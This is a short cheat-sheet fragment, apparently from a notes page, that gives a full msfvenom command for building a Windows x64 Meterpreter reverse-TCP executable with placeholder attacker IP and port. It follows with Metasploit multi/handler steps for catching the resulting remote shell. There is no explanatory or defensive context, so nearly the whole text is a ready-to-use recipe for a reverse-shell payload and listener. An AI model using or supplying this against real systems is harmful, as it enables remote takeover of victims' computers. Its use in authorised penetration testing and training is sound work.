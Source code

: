 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -a x64 -o /root/Desktop/<filename>.exe

# Within Metasploint set your options.
* Enter, use exploit/multi/handler

* Enter, set PAYLOAD windows/x64/meterpreter/reverse_tcp

* Enter, set LHOST <IP>

* Enter, set LPORT 4444

* Enter, run
